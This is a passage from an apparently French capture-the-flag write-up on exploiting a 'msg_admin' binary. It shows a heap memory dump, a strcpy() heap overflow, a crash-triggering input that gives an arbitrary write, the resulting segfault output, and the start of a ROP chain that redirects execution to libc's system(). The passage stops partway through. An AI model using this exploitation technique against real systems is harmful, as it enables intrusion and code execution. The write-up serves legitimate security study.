 ```plain
0x804d840:      0x00000000      0x00000000      0x00000000      0x00000000
0x804d850:      0x00000000      0x00000000      0x00000000      0x00000000
0x804d860:      0x00000000      0x00000000      0x00000000      0x00000000
0x804d870:      0x00000000      0x00000000      0x00000000      0x00000011
0x804d880:      0x00007a69      0x0804d890      0x0804d8a0      0x00000011
0x804d890:      0x32643272      0x00000000      0x00000000      0x000000d1
0x804d8a0:      0x7a7a7a62      0x6964207a      0x0000676e      0x00000000
```

Les habitués auront compris que les valeurs *11* et *d1* dans ce dump correspondent à des entêtes de chunks (size et flags).  

La vulnérabilité réside ici sur l'emploi d'un *strcpy()* qui permet un buffer overflow sur le tas et ainsi écraser les adresses présentes. Adresses qui sont utilisées dans la boucle comme destinations d'autres *strcpy()*.  

Par tâtonnement on peut forger facilement un PoC permettant d'écrire à une adresse de notre choix :  

```plain
HellooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooAAAA|Hello there
devloop|tatayoyo
```

```bash
$ ./msg_admin 0 crash_message.txt
[+] Recording 2 entries
[1]    14446 segmentation fault (core dumped)  ./msg_admin 0 crash_message.txt
$ dmesg|tail -1
[204496.864873] msg_admin[14446]: segfault at 41414141 ip 00000000f7e6b2f2 sp 00000000fff32dbc error 6 in libc-2.23.so[f7de4000+1b0000]
```

On contrôle ici non seulement l'adresse de destination du *strcpy()* mais aussi le contenu pointé par la source. Un cas de write-what-where 5 étoiles :)  

Côté difficultés le binaire a une stack non exécutable et stack protector (canary). Sans compter que l'on ne communique pas directement avec le programme : on ne peut pas obtenir son output et essayer de leaker une adresse de la libc...  

L'objectif est de mettre en place une chaîne de ROPs qui peut fonctionner sans intervention de notre part. Notre chaîne devra donc :  

1. Récupérer une adresse de fonction (ou d'un symbole quelconque) de la libc
2. Ajouter à cette valeur le décalage nécessaire pour pointer sur la fonction *system()* (on utilise *objdump* sur la libc pour avoir les offsets des deux symboles et on soustrait pour la différence)
3. Sauter sur ou appeler cette adresse avec comme argument le path d'un binaire que l'on contrôle

A l'aide de [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) on peut trouver des suites d'instructions pour réaliser certaines étapes.  

```asm
0x08048feb : add eax, dword ptr [ebx + 0x1270304] ; ret
```

Avec un contrôle de ebx on peut ici récupérer la valeur à une adresse donnée :)  

